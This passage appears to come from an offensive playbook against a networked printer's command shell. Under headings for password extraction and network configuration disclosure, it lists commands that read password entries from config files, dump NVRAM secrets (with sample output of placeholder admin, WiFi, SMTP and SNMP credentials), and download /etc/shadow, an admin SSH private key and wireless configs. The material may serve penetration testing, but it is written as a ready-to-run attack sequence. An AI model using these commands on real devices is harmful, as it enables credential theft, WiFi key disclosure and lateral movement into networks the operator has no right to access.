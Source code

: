 **Impact**: Full filesystem disclosure

---

### Attack 1.2: Password Extraction

**Objective**: Extract stored credentials

**Techniques:**

**Technique A: Configuration Files**
```bash
> download /etc/config.xml
> cat /etc/config.xml | grep -i password
```

**Technique B: NVRAM Dump**
```bash
> nvram dump

NVRAM Contents:
ADMIN_PASSWORD=secret123
WIFI_PSK=MyWiFiPassword
SMTP_USER=printer@company.com
SMTP_PASS=email_password
SNMP_COMMUNITY=private
```

**Technique C: System Files**
```bash
> download /rw/var/sys/passwd
> download /etc/shadow
> download /home/admin/.ssh/id_rsa
```

**Impact**: Credential compromise, lateral movement

---

### Attack 1.3: Network Configuration Disclosure

**Objective**: Extract network credentials and topology

```bash
# Get full network info
> network

# Download network configs
> download /etc/network/interfaces
> download /etc/wireless.conf
> download /etc/network/wpa_supplicant.conf

# Get routing table
> download /proc/net/route
```

**Impact**: Network mapping, WiFi key disclosure

---